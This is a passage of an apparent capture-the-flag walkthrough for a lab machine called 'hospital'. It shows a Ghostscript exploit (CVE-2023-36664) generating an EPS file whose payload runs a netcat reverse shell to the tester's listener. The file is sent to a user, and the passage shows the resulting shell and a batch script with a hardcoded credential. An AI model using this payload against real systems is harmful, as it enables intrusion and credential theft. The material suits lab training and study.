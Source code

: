 Generate a new payload to connect reverse shell to our local listener.

```shell
labadmin@labmachine:~/hospital/CVE-2023-36664-Ghostscript-command-injection$ python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe 10.10.14.85 6000 -e cmd.exe" --filename payload2 --extension eps
[+] Generated EPS payload file: payload2.eps
```

Send the new payload to Dr Brown as with the previous one, then check the local listener and wait for the reverse shell.

Success! We have a reverse shell as Dr Brown.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.241 6304
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>whoami
whoami
hospital\drbrown
```

In current Documents folder there is a script named `ghostscript.bat`

```shell
C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

04/12/2024  12:57 AM    <DIR>          .
04/12/2024  12:57 AM    <DIR>          ..
10/23/2023  03:33 PM               373 ghostscript.bat
04/12/2024  12:57 AM            59,392 nc.exe
               2 File(s)         59,765 bytes
               2 Dir(s)   4,474,802,176 bytes free

C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring '[OMITTED]' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>
```

Interesting, it contains a hardcoded user and password.
